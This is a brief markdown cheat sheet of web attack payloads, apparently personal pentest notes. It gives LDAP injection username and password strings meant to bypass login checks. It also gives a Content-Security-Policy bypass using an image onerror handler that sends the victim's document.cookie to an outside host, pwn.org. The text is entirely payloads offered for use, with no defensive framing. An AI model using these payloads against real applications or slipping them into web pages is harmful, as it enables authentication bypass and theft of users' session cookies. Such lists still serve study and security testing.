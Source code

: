 
# LDAP Injection

[ldap_injection](https://wiki.zenk-security.com/doku.php?id=failles_web:ldap_injection)

username: *))%00
password: whatever

username: *
password: *)(&

# Bypass Content-Security-Policy

using inline script tag : `<script>/*some stuff*/</script>`

if its blocked we can just use : `<img src onerror="location.href='//pwn.org/index.php?content='.concat(document.cookie);">`